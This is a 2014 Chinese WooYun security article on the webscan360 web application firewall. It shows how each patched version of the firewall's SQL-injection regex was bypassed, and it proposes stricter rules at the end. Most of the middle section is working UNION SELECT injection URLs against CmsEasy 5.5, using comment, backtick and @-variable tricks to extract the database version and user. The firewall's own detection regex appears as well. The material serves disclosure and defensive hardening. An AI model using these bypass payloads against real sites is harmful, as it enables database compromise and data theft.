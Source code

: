 # Webscan360 的防御与绕过

2014/11/06 13:51 | [menmen519](http://drops.wooyun.org/author/menmen519 "由 menmen519 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

这两天给 360 做了一个 webscan360 的总结，结果补丁还没有出来，就被人公布到了 91org 上面，既然公开了，那我就做一个总结

首先我们贴上它最新的防御正则

```
\<.+javascript:window\[.{1}\\x|<.*=(&#\d+?;?)+?>|<.*(data|src)=data:text\/html.*>|\b(alert\(|confirm\(|expression\(|prompt\(|benchmark\s*?\(.*\)|sleep\s*?\(.*\)|load_file\s*?\()|<[a-z]+?\b[^>]*?\bon([a-z]{4,})\s*?=|^\+\/v(8|9)|\b(and|or)\b\s*?([\(\)'"\d]+?=[\(\)'"\d]+?|[\(\)'"a-zA-Z]+?=[\(\)'"a-zA-Z]+?|>|<|\s+?[\w]+?\s+?\bin\b\s*?\(|\blike\b\s+?["'])|\/\*.*\*\/|<\s*script\b|\bEXEC\b|UNION.+?SELECT@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|UPDATE@{0,2}(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))SET|INSERT\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\(.+\)|\s+?.+?\s+?|(`|'|").*?(`|'|"))FROM(\(.+\)|\s+?.+?|(`|'|").*?(`|'|"))|(CREATE|ALTER|DROP|TRUNCATE)\s+(TABLE|DATABASE)|\/\*.*?\*\/|' 
```

首先我们追溯一下：

方开始的时候并没有这个正则表达式`\/\*.*?\*\/|'`

所以当时我们可以写为：

```
union select/**/1,2,3 
```

这里我们用 cmseasy 举例子

我们发送 url：

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT/**/1,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```

这时候我们是完全可以取出来敏感信息，成功绕过：

![enter image description here](img/img1_u132_png.jpg)

第二次被修补之后加上了后面的正则表达式，导致通篇不能写/**/这样的字符，但是这样真的能防御住吗：

我们利用 mysql 的一个特性：

```
union select`colum`,2,3 
```

这种特性是完全可以执行的

所以我们改变一下思路发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```

这样就成功绕过了：

![enter image description here](img/img2_u125_png.jpg)

修补之后：

```
union select`colum`,2,3 
```

这种被正则 `(`|'|").*?(`|'|")` 这个给过滤了

下载下来之后，发现正则表达式

```
(\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

发现这是后修补了小引号，但是本质问题还是没有变

在 sql 中我们还有另外一个特性：

```
union select@`1`,2,3 
```

这样也是可以执行，那么就成功绕过了：

所以我们改变一下思路发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@`typeid`,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=1 
```

![enter image description here](img/img3_u112_png.jpg)

此时有打了补丁，这时候正则又变成了

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

这个正则的意思修补了刚才的那种类型，但是这个正则真正鸡肋的地方在如果不接小引号，那么这个正则就失效了

所以我们可以在进行变形处理 `union select@1,2,3`这种没有被过滤，直接可以通过 这种形式的是可以在 sql 语句里面运行的，而且不报错

`union select@1=@1,2,3` 这种也是没有被过滤，直接可以通过，这种也是可以再 mysql 完美执行的

发送 url:

```
http://192.168.10.70/CmsEasy_5.5_UTF-8_20141015/uploads/ index.php?case=archive&act=orders&aid[typeid%60%3d1%20UNION%20SELECT@typeid,2,3,concat(version(),user()),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58 from cmseasy_archive ORDER BY 1%23]=10 
```

![enter image description here](img/img4_u48_png.jpg)

以上就是 webscan360 的进化，那么我们来分析一下怎么去修补这个漏洞

最后我们给出来的正则

```
@{0,2}(.+|\(.+\)|\s+?.+?|(`|'|").*?(`|'|")) 
```

然后进行测试 成功的拦截了 union select 类型的 当然了后面的 update 类型的 和 insert 类型也要进行相应的改进

下来让我们在看其他地方一个正则

```
INSERT\s+INTO.+?VALUES 
```

这个是太传统的写法 其实根据 mysql 的写法 这个会拦截`insert into t values(1,2,3)` 但是插入操作不止是这样的写法 `insert into t set a=1` 这个是不会被拦截的 所以还得加上一个正则

```
INSERT\s+INTO.+?(VALUES|SET) 
```

版权声明：未经授权禁止转载 [menmen519](http://drops.wooyun.org/author/menmen519 "由 menmen519 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [攻击 JavaWeb 应用[4]-SQL 注入[2]](http://drops.wooyun.org/tips/288)
*   [Mysql Trigger](http://drops.wooyun.org/tips/3435)
*   [DVWA 中学习 PHP 常见漏洞及修复方法](http://drops.wooyun.org/papers/483)
*   [waf 绕过的技巧](http://drops.wooyun.org/tips/132)
*   [SqlServer 2005 Trigger](http://drops.wooyun.org/tips/3464)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)